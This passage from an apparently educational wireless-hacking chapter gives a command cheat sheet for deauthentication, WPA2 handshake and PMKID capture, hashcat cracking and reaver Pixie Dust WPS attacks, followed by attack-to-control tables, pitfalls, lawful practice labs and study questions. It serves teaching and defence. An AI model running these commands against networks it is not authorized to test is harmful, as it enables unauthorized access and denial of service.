sudo aireplay-ng --deauth 4 -a <BSSID> -c <CLIENT> wlan1mon

# Validate handshake
aircrack-ng cap-01.cap
tshark -r cap-01.cap -Y eapol              # confirm EAPOL M1..M4

# Convert to hashcat 22000 (handshake or PMKID)
hcxpcapngtool -o out.22000 cap-01.cap

# Crack (see Chapter 3 for depth)
hashcat -m 22000 out.22000 rockyou.txt

# PMKID capture (clientless, see Chapter 3)
sudo hcxdumptool -i wlan1mon -o pmkid.pcapng --enable_status=1

# WPS discovery + Pixie Dust
sudo wash -i wlan1mon
sudo reaver -i wlan1mon -b <BSSID> -c <CH> -K 1 -vv
```

### Attack-to-control mapping (bring this to reports)

| Attack | Precondition | Single most effective control |
|---|---|---|
| WEP crack (PTW) | AP uses WEP | Replace with WPA2/WPA3 |
| 4-way handshake crack | WPA2-PSK, connected client, weak PSK | Strong random PSK / WPA3-SAE |
| PMKID crack | AP includes PMKID, weak PSK | Strong PSK / WPA3; disable PMKID roaming cache |
| Deauth (force/DoS) | No PMF | 802.11w PMF **required** |
| WPS PIN / Pixie Dust | WPS enabled | Disable WPS entirely |
| WPA3 downgrade | Transition mode | WPA3-only SSID |
| KRACK | Unpatched client | Patch clients |

### Reading airodump ENC/CIPHER/AUTH quickly

| You see | It means | Your play |
|---|---|---|
| `OPN` | Open, no encryption | Just connect / capture cleartext |
| `WEP` | Legacy broken | PTW crack in minutes |
| `WPA CCMP/TKIP PSK` | Old, TKIP present | Capture + crack; flag TKIP |
| `WPA2 CCMP PSK` | Standard home/SMB | 4-way or PMKID → offline crack |
| `WPA2 CCMP MGT` | Enterprise (802.1X) | No PSK; evil-twin/EAP relay |
| `WPA3 CCMP SAE` | Modern | No offline crack; pivot |

---

## Part 16: Common Pitfalls

- **Channel hopping during capture.** The #1 reason handshakes "won't capture." Always lock `-c <channel>` once you've picked a target.
- **Forgetting `airmon-ng check kill`.** NetworkManager quietly retunes your card mid-capture. Kill it first.
- **Over-deauthing.** Blasting hundreds of deauths often *prevents* the client from completing reassociation, so you never get a clean handshake — and it's maximally loud. A handful is plenty.
- **Assuming a banner means a crackable capture.** Verify EAPOL M2 (the MIC-bearing frame) is actually present with tshark before you walk away.
- **Wrong SSID / SSID typo when cracking.** The SSID is the PBKDF2 salt — crack against the exact ESSID from the capture, not what you *think* the name is.
- **Trying to offline-crack WPA3-SAE.** There's nothing to crack offline; if the target is WPA3-only, stop looking for a handshake to brute-force and reassess (transition-mode downgrade, client-side, or EAP).
- **Expecting deauth to work against PMF.** On 802.11w/WPA3 the forged deauth is ignored — that's not a broken adapter, it's the defence working.
- **Treating PSK as isolation.** Everyone with the passphrase can potentially decrypt everyone else's traffic on that BSS. Shared-PSK guest Wi-Fi is not private between users.

---

## Part 17: Practice Labs & Resources

Train these skills legally and hands-on:

- **Your own home lab (best):** a spare router set to WPA2-PSK with a passphrase you choose, plus a phone as the client. Reproduce Part 11 end-to-end: monitor mode → survey → locked capture → targeted deauth → validate EAPOL → convert to 22000. Then repeat with a **deliberately weak** passphrase and crack it in Chapter 3; then a strong one and watch the crack fail — the single most convincing demonstration of why passphrase strength is everything.
- **TryHackMe — "Wifi Hacking 101"** and the adjacent wireless rooms: guided WPA2 handshake capture and cracking in a lawful sandbox.
- **HackTheBox Academy — "Wireless"/"Intro to Wi-Fi" modules** (where available on your subscription): structured 802.11 attack labs.
- **Aircrack-ng official test captures:** the aircrack-ng project ships sample `.cap` files (e.g., `wpa.cap`, `wpa2.eapol.cap`) with a known passphrase — perfect for practising cracking without any radio at all. Grab them from the aircrack-ng wiki/test data and run `aircrack-ng -w <wordlist> wpa2.eapol.cap`.
- **CryptoHack / hands-on crypto** for the underlying primitives — PBKDF2, HMAC, AES-CTR/CBC-MAC — so the PMK→PTK→MIC chain isn't a black box.
- **Read the source papers** (they're readable and canonical): FMS (2001), PTW (2007), KRACK (Vanhoef & Piessens, 2017), the PMKID disclosure (Steube, 2018), and Dragonblood (Vanhoef & Ronen, 2019). Understanding *how* each break was found is the single best way to think like a wireless researcher.

### Practice questions

1. A network shows `WPA2 CCMP PSK` in airodump with **no connected clients**. Which capture technique still works, why, and what single AP behaviour does it depend on?
2. You captured only EAPOL **message 1 and message 4**. Can you crack the passphrase? Explain in terms of which values each message carries (nonces, MIC).
3. The target is **WPA3 in transition mode**. Describe the concrete downgrade attack that puts you back on crackable ground, and the one configuration change that would defeat it.
4. Explain, using the PTK derivation, *why* changing the SSID (but keeping the same passphrase) forces an attacker to redo precomputation from scratch.
5. Your targeted deauth is being sent (aireplay reports ACKs) but the client never drops and no handshake appears. Give two distinct causes — one benign, one a security control — and how you'd distinguish them.

Work each one from the mechanics in Parts 6–10, not from memory — if you can derive the answer from the key hierarchy and frame semantics, you understand the chapter. The next chapter takes the **aircrack-ng suite** apart tool by tool (airmon-ng, airodump-ng, aireplay-ng, aircrack-ng) and turns this capture workflow into fluent muscle memory; Chapter 3 then goes deep on **PMKID and hashcat cracking** with hcxdumptool.
